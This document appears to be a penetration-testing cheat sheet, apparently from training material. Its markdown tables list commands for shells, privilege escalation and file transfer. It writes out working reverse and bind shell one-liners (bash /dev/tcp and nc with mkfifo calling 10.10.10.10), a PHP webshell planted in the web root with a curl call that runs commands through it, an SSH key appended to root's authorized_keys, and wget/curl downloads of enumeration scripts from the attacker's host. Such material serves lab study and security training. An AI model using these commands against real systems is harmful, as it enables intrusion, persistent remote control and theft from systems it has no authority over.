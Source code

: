 ### Using Shells

| **Command**   | **Description**   |
| --------------|-------------------|
| `nc -lvnp 1234` | Start a `nc` listener on a local port |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server |
| `nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1) |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell |

### Privilege Escalation

| **Command**   | **Description**   |
| --------------|-------------------|
| `./linpeas.sh` | Run `linpeas` script to enumerate remote server |
| `sudo -l` | List available `sudo` privileges |
| `sudo -u user /bin/echo Hello World!` | Run a command with `sudo` |
| `sudo su -` | Switch to root user (if we have access to `sudo su`) |
| `sudo su user -` | Switch to a user (if we have access to `sudo su`) |
| `ssh-keygen -f key` | Create a new SSH key |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user |
| `ssh root@10.10.10.10 -i key` | SSH to the server with the generated private key |

### Transferring Files

| **Command**   | **Description**   |
| --------------|-------------------|
| `python3 -m http.server 8000` | Start a local webserver |
| `wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0` | Convert a file to `base64` |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell` | Convert a file from `base64` back to its orig |
| `md5sum shell` | Check the file's `md5sum` to ensure it converted correctly |

---
